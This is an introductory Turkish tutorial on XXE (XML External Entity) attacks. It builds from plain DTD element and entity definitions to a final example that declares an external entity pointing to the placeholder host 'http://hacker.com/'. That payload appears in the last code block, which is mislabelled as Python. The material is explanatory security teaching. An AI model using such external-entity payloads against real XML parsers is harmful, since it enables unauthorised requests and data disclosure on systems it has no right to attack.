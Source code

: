 ## **Peki XXE Hikayesi Nasıl Başlamaktadır ?**

Document Type içerisinde SYSTEM ile okunması gereken dosyayı belirtebilmektesiniz. Bu da ilgili dosyadaki elementleri include eder yani içe aktarır. Burada sadece dosya adı değil aynı zamanda string bir ifade de verebilmektesiniz. Burada şu şekilde bir yanımlama yapabilirsiniz; böyle bir ELEMENT tanımı yapabilmektesiniz.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM [<!ELEMENT note (to,from,heading,body)>]>
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me this weekend!</body>
</note>
```

Bu format bizim için mantıklı bir bakış açısı sağlar. XML’in içerisinde ayrıca ENTITY tanımlamaları da sağlayabilirsiniz. Örneğin burada “writer” isimli bir ENTITY oluşturup referansıyla çağırabilirsiniz.

```
DTD Example:

<!ENTITY writer "Donald Duck.">
<!ENTITY copyright "Copyright W3Schools.">

XML example:

<author>&writer;&copyright;</author>
```

Buradan hareketle artık XML yapımızı şu şekilde güncelleyelim;

burada artık “writer” ile referans verdiğimiz yerde “Donald Duck” yazılacaktır.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM [<!ENTITY writer "Donald Duck.">]>
<note>
<to>&writer;</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me this weekend!</body>
</note>
```

Tüm bu feature’ların ve özelliklerin yanında ENTITY, SYSTEM operandına erişime sahiptir. Dolayısıyla şu şekilde bir şey yapabiliriz artık;

```python
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM [<!ENTITY writer SYSTEM "http://hacker.com/">]>
<note>
<to>&writer;</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me this weekend!</body>
</note>
```
